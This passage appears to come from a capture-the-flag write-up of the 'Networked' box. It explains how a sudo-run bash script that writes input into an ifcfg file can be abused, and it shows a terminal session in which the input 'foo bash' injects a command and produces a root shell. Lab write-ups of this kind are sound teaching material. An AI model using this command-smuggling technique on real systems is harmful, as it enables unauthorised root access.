 for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
{{< /highlight >}}

What it does is it asks the user for some parameters to configure a network
interface, and the given input must match the regular expression. The problem is
that in line 18, if we gave `foo bash` as input, the `$var` variable becomes
`foo`, and `bash` will be executed. And luckily for us, we can use spaces as
input.
Let's try to get a root shell then:
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
foo bash
interface PROXY_METHOD:
bar
interface BROWSER_ONLY:
foo
interface BOOTPROTO:
bar
[root@networked network-scripts]# wc -c /root/root.txt
33 root.txt
```

Lessons learned: read carefully the documentation before writing system scripts!
